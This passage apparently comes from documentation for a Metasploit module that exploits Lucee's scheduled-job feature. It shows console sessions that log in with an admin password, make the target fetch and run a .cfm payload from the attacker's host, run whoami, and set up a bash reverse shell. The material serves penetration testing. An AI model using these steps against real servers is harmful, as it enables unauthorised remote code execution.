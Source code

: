 ```


Shell Banner:
Windows PowerShell running as user LOCAL SERVICE on HOMELAB-BINCE
Copyright (C) Microsoft Corporation. All rights reserved.
-----
          
PS C:\lucee\tomcat> 
```
### Successful exploitation of a Windows 10 host running Lucee 5.3.10.120 executing whoami
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > set CMD whoami
CMD => whoami
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(multi/http/lucee_scheduled_job) > run

[+] Authenticated successfully
[*] Using URL: http://192.168.19.145:8081/UHn0jvUP2ZDtgwN.cfm
[+] Job UHn0jvUP2ZDtgwN created successfully
[+] Job UHn0jvUP2ZDtgwN updated successfully
[*] Executing scheduled job: UHn0jvUP2ZDtgwN
[+] Job UHn0jvUP2ZDtgwN executed successfully
[*] Attempting to access payload...
[*] Payload request received for /UHn0jvUP2ZDtgwN.cfm?RequestTimeout=50 from 192.168.19.131
[*] Attempting to access payload...
[+] Received 200 response from UHn0jvUP2ZDtgwN.cfm
[+] Output: nt authority\local service
[+] Exploit completed.
[*] Removing scheduled job UHn0jvUP2ZDtgwN
[+] Scheduled job removed.
[*] Server stopped.
[!] This exploit may require manual cleanup of 'C:\lucee\tomcat\webapps\ROOT\UHn0jvUP2ZDtgwN.cfm' on the target
[*] Exploit completed, but no session was created.
```

### Successful exploitation of a Docker host running Lucee 5.1.4.19 for a shell as Lucee
```
msf6 > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > set target 1
target => 1
msf6 exploit(multi/http/lucee_scheduled_job) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf6 exploit(multi/http/lucee_scheduled_job) > set LHOSTS 10.0.0.45
LHOST => 10.0.0.45
msf6 exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.33
RHOSTS => 10.0.0.33
msf6 exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf6 exploit(multi/http/lucee_scheduled_job) > run

[*] Started reverse TCP handler on 192.168.19.145:4444 
[+] Authenticated successfully
```